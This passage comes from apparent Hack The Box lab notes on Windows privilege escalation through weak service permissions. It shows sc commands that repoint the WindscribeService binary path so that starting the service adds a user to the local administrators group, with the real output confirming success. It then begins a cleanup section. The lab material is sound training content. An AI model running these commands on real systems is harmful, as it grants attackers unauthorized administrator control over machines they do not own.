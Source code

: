 2) Changing the Service Binary Path

```
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

3) Stopping Service

```
sc stop WindscribeService
 
SERVICE_NAME: WindscribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x4
        WAIT_HINT          : 0x0
```

4) Starting service

```
sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```

5) Confirming Local Admin Group Addition

```
net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
htb-student
mrb3n
The command completed successfully.
```

Other example : https://docs.microsoft.com/en-us/windows/deployment/update/how-windows-update-works
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322

#### Weak Service Permissions - Cleanup

1) Reverting the Binary Path
